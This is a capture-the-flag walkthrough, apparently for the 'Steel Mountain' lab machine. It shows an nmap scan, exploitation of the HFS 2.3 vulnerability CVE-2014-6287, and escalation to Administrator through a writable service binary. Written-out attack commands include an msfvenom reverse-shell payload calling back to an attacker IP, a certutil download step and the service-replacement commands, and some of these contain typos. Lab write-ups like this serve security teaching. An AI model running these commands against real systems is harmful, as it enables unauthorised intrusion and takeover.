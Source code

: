# Introduction                            

In this room you will enumerate a Windows machine, gain initial access  with Metasploit, use Powershell to further enumerate the machine and  escalate your privileges to Administrator.

# Initial Access

## nmap

```shell
$ nmap -sC -sV -Pn -p- -T4 10.10.243.27
Starting Nmap 7.92 ( https://nmap.org ) at 2022-04-13 18:56 IST
Warning: 10.10.243.27 giving up on port because retransmission cap hit (6).
Nmap scan report for 10.10.243.27
Host is up (0.16s latency).
Not shown: 65426 closed tcp ports (conn-refused), 94 filtered tcp ports (no-response)
PORT      STATE SERVICE            VERSION
80/tcp    open  http               Microsoft IIS httpd 8.5
|_http-server-header: Microsoft-IIS/8.5
| http-methods: 
|_  Potentially risky methods: TRACE
|_http-title: Site doesn't have a title (text/html).
135/tcp   open  msrpc              Microsoft Windows RPC
139/tcp   open  netbios-ssn        Microsoft Windows netbios-ssn
445/tcp   open  microsoft-ds       Microsoft Windows Server 2008 R2 - 2012 microsoft-ds
3389/tcp  open  ssl/ms-wbt-server?
| rdp-ntlm-info: 
|   Target_Name: STEELMOUNTAIN
|   NetBIOS_Domain_Name: STEELMOUNTAIN
|   NetBIOS_Computer_Name: STEELMOUNTAIN
|   DNS_Domain_Name: steelmountain
|   DNS_Computer_Name: steelmountain
|   Product_Version: 6.3.9600
|_  System_Time: 2022-04-13T14:07:38+00:00
| ssl-cert: Subject: commonName=steelmountain
| Not valid before: 2022-04-12T12:46:49
|_Not valid after:  2022-10-12T12:46:49
|_ssl-date: 2022-04-13T14:07:44+00:00; +19m49s from scanner time.
5985/tcp  open  http               Microsoft HTTPAPI httpd 2.0 (SSDP/UPnP)
|_http-server-header: Microsoft-HTTPAPI/2.0
|_http-title: Not Found
8080/tcp  open  http               HttpFileServer httpd 2.3
|_http-title: HFS /
|_http-server-header: HFS 2.3
47001/tcp open  http               Microsoft HTTPAPI httpd 2.0 (SSDP/UPnP)
|_http-server-header: Microsoft-HTTPAPI/2.0
|_http-title: Not Found
49152/tcp open  msrpc              Microsoft Windows RPC
49153/tcp open  msrpc              Microsoft Windows RPC
49154/tcp open  msrpc              Microsoft Windows RPC
49155/tcp open  msrpc              Microsoft Windows RPC
49156/tcp open  msrpc              Microsoft Windows RPC
49162/tcp open  msrpc              Microsoft Windows RPC
49164/tcp open  msrpc              Microsoft Windows RPC
Service Info: OSs: Windows, Windows Server 2008 R2 - 2012; CPE: cpe:/o:microsoft:windows

Host script results:
|_nbstat: NetBIOS name: STEELMOUNTAIN, NetBIOS user: <unknown>, NetBIOS MAC: 02:68:df:f0:5e:5d (unknown)
| smb2-time: 
|   date: 2022-04-13T14:07:37
|_  start_date: 2022-04-13T12:46:43
|_clock-skew: mean: 19m48s, deviation: 0s, median: 19m48s
| smb-security-mode: 
|   authentication_level: user
|   challenge_response: supported
|_  message_signing: disabled (dangerous, but default)
| smb2-security-mode: 
|   3.0.2: 
|_    Message signing enabled but not required

```

-  **CVE-2014-6287** 

# Privilege Escalation

To enumerate this machine, we will  use a powershell script called PowerUp, that's purpose is to evaluate a  Windows machine and determine any abnormalities - "*PowerUp aims to be a clearinghouse of common Windows privilege escalation* *vectors that rely on misconfigurations.*"

You can download the script [here](https://github.com/PowerShellMafia/PowerSploit/blob/master/Privesc/PowerUp.ps1). Now you can use the **upload** command in Metasploit to upload the script.

![img](https://i.imgur.com/Zqipdba.png)

To execute this using Meterpreter, I will type **load powershell** into meterpreter. Then I will enter powershell by entering **powershell_shell**:

![img](https://i.imgur.com/1IEi13Y.png)                                                    

Take close attention to the CanRestart option that is set to true. What is the name of the service which shows up as an *unquoted service path* vulnerability?

![image-20220413213913165](C:\Users\pro\AppData\Roaming\Typora\typora-user-images\image-20220413213913165.png)

The CanRestart option being true,  allows us to restart a service on the system, the directory to the  application is also write-able. This means we can replace the legitimate application with our malicious one, restart the service, which will run our infected program!

Use msfvenom to generate a reverse shell as an Windows executable.

![img](https://i.imgur.com/ieeJUME.png)

```shell
msfvenom -p windows/shell_reverse_tcp LHOST=10.10.118.24 LPORT=4443 -e x86/shikata_ga_nai -f exe -o ASCService.exe
```


To restart a service in Windows use the following command: `sc start <service path >`


```powershell
sc stop AdvancedSystemCareService9
copy Advanced.exe "\Program Files (x86)\IObit\Advanced SystemCare\Advanced.exe"
```

![img](https://blog.razrsec.uk/content/images/2020/05/image-65.png)

Upload your binary and replace the legitimate one. Then restart the program to get a shell as root. 

**Note:** The service showed up as being unquoted (and could be exploited using this  technique), however, in this case we have exploited weak file  permissions on the service files instead.

#  Access and Escalation Without Metasploit                            

Now let's complete the room without the use of Metasploit. 

For this we will utilise powershell and winPEAS to enumerate the system and collect the relevant information to escalate 

To begin we shall be using the same CVE. However, this time let's use this [exploit.](https://www.exploit-db.com/exploits/39161)

*Note that you will need to have a web server and a netcat listener active at the same time in order for this to work!*

To begin, you will need a netcat static binary on your web server. If you do not have one, you can download it from [GitHub](https://github.com/andrew-d/static-binaries/blob/master/binaries/windows/x86/ncat.exe)!

```shell
cirtutil -urlcache -f http://<ip>:<port> <file name>
python -m SimpelHTTServer 80
```



You will need to run the exploit twice. The first time will pull our netcat binary to the system and the second will execute our payload to gain a  callback!                                                         

Congratulations, we're now onto the system. Now we can pull winPEAS to the system using powershell -c. 

Once we run winPeas, we see that it points us towards unquoted paths. We can see that it provides us with the name of the service it is also  running.

![img](https://i.imgur.com/OyEdJ27.png)

`powershell -c "Get-Service"`

Now let's escalate to Administrator with our new found knowledge. 

Generate your payload using msfvenom and pull it to the system using powershell. 

Now we can move our payload to the unquoted directory winPEAS alerted us to and restart the service with two commands.

First we need to stop the service which we can do like so;

sc stop AdvancedSystemCareService9

Shortly followed by;

sc start AdvancedSystemCareService9

Once this command runs, you will see you gain a shell as Administrator on our listener!
